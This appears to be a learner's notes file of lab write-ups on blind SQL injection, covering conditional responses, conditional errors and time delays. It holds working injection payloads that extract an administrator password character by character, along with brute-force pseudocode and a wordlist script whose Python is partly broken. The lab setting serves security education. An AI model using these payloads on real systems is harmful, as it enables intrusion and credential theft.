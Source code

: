 # Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab: Blind SQL injection with conditional responses


Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 
Example injected SQL query with `' AND '1'='1`:

```

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message

```
' AND '1'='1
' AND '1'='2 
```
3. Determine password length

```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
index = 1 
while True:
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	resp = requests.get(url, cookies)
	if resp contains "welcome":
		password += char
		index += 1
		
```
Automated script in the scripts folder.

## Lab: Blind SQL injection with conditional errors

Steps:
1. Determine the database version

```
TrackingId=abc' ORDER BY 1 --
TrackingId=abc' UNION SELECT banner FROM v$version --
```

2. Although there's no difference in query result beside internal error which means injection failed, I will keep the whole TrackingId for consistency.

Returns no error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a 
```

Returns error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

' AND (SELECT CASE WHEN (SUBSTR('administrator',1,1)='b') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

3. This third step just me figuring out how the oracle query works.
```
# return errors
# means it's false, password not started with A.
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users where username='administrator'),1,1)='A') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

4. Determine password length
```
Returns error (TRUE that password length is lower than 21):
' AND (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') < 21) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

Returns error (TRUE that password length is greater than 8):
' AND (SELECT CASE WHEN (LENGTH(SELECT password FROM users WHERE username='Administrator') > 8) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

5. Brute force.

```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),§P1§,1) = '§P2§') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

**With Burpsuite Intruder:**

P1 = Index = 1-21  
P2 = Chars = 0-9+a-z+A-Z

Create wordlist using python

```python
import string

p1=list(range(1,21)) # [1,2,3...,19, 20]
p2=string.digits+string.ascii_letters # [012..abc..XYZ]

# Payload for p1
for i in range p1:
	print(i)

for c in range p2:
	print(c)
```

Paste wordlist to Burpsuite intruder, use P1 in payload 1, P2 in payload 2.

**Using my multithread script (took less than 5 minutes):**

 https://gist.github.com/fahmifj/13d055117f729a233a8f4ccbefdb1680

## Lab: Blind SQL injection with time delays

Assume the query is:

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Since it's a blind sql, using Payload list is my first option

```
' AND 5=(SELECT 5 FROM PG_SLEEP(10))
``` 

And here is the lab solution using string concatenation.

```
'||pg_sleep(10) --
```

Interesting..

Reference
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based

